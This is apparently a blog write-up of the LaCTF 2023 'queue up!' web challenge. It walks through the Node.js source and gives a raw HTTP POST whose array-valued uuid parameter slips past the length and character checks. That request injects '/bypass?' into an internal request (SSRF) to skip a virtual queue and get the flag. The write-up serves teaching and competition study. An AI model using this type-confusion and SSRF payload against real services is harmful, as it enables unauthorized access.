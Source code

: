 ```yaml
---
layout: post
title: "LaCTF 2023 - queue up! [Web]"
categories: ctf
tags: web ikerl
date: 2023-02-12 22:00:00 +0100
author: ikerl
---
```


queue up! is a web challenge in LaCTF 2023 that ended with XX solves. The goal is to retrieve a flag that is sent by a web application when the queue goes down and the timer reaches zero. However, with over 20,000 users waiting for the flag, the estimated time to win is about 80+ days (with only one flag being sent every 5 minutes).

```
I've put the flag on a web server, but due to high load, I've had to put a virtual queue in front of it. Just wait your turn patiently, ok? You'll get the flag eventually.

Disclaimer: Average wait time is 61 days.
```

![](queued.png)

## Analysis of the Application Design

The first step in solving this challenge is to analyze the source code to identify the most important features to test. The web app consists of two independent servers: the flag server (https://qu-flag.lac.tf/) and the queue server (https://qu-queue.lac.tf/).

The flag server only performs two tasks: if the user requests `/` using the GET method, they will be redirected to the queue server, and if the timer of the queue server reaches zero, the user will be redirected back to the flag server using the POST method, and the flag will be sent.

This is the high-level logic of the web application:

- The user arrives to the flag server.
- The user cannot read the flag until his timer reaches zero, so he is redirected to the queue server to wait.
- When the timer reaches zero the user has the option of being redirected back to the flag server in order to get the flag.

## Source Code Analysis

```javascript=
    app.get("/api/:uuid/status", async (req, res) => {
        try {
            const user = await Queue.findByPk(req.params.uuid);
            res.send(user.served);

        } catch {
            res.send("false");
        }

    });

    app.get("/api/:uuid/bypass", async (req, res) => {
        try {
            const user = await Queue.findByPk(req.params.uuid);
            if (user === undefined) {
                res.send("uuid not found");
            } else {
                await user.update({served: true});
                res.send("bypassed");
            }
        } catch {
            res.send("invalid uuid");
        }

    });
```

During the source code analysis, two key points were identified:

- The queue server has two privileged functionalities only available to administrators. The first is to prioritize users in the queue, reducing waiting time, and the second is to check the status of users in the queue to determine if they can receive the flag.
- The flag server has a uuid verification process. The user submits their uuid in the request body, and the server checks if:
    - The uuid has a length of 36
    - The uuid contains only numbers, letters, and hyphens.
    - If both requirements are met, the flag server will execute a request to the queue server's status functionality to determine if the user can receive the flag.

```javascript=
app.post("/", async function (req, res) {
    let uuid;
    try {
        uuid = req.body.uuid;
    } catch {
        res.redirect(process.env.QUEUE_SERVER_URL);
        return;
    }

    if (uuid.length != 36) {
        res.redirect(process.env.QUEUE_SERVER_URL);
        return;
    }
    for (const c of uuid) {
        if (!/[-a-f0-9]/.test(c)) {
            res.redirect(process.env.QUEUE_SERVER_URL);
            return;
        }
    }


    const requestUrl = `http://queue:${process.env.QUEUE_SERVER_PORT}/api/${uuid}/status`;
    try {
        const result = await (await fetch(requestUrl, {
            headers: new Headers({
                'Authorization': 'Bearer ' + process.env.ADMIN_SECRET
            })
        })).text();
        if (result === "true") {
            console.log("Gave flag to UUID " + uuid);
            res.send(process.env.FLAG);
        } else {
            res.redirect(process.env.QUEUE_SERVER_URL);
        }
    } catch {
        res.redirect(process.env.QUEUE_SERVER_URL);
    }

});
```

## Vulnerability and Exploitation

There is a critical vulnerability in the checks performed by the flag server. By using arrays, it is possible to bypass both checks and modify the server's request (SSRF) to bypass the user's position in the queue.

The exploit used during this challenge involves sending a POST request to the `/` endpoint of the flag server with the uuid as a POST parameter in the body. This will retrieve the flag.

```
POST / HTTP/1.1
Host: qu-flag.lac.tf
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 366

uuid[]=70964ab7-1025-4f86-a378-ab3b737bed3a/bypass?&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a
```

![](flag.png)

Note: When clicking the Get my flag! button, the connection may fail because it uses HTTP instead of HTTPS.

Flag: `lactf{Byp455in_7he_Qu3u3}`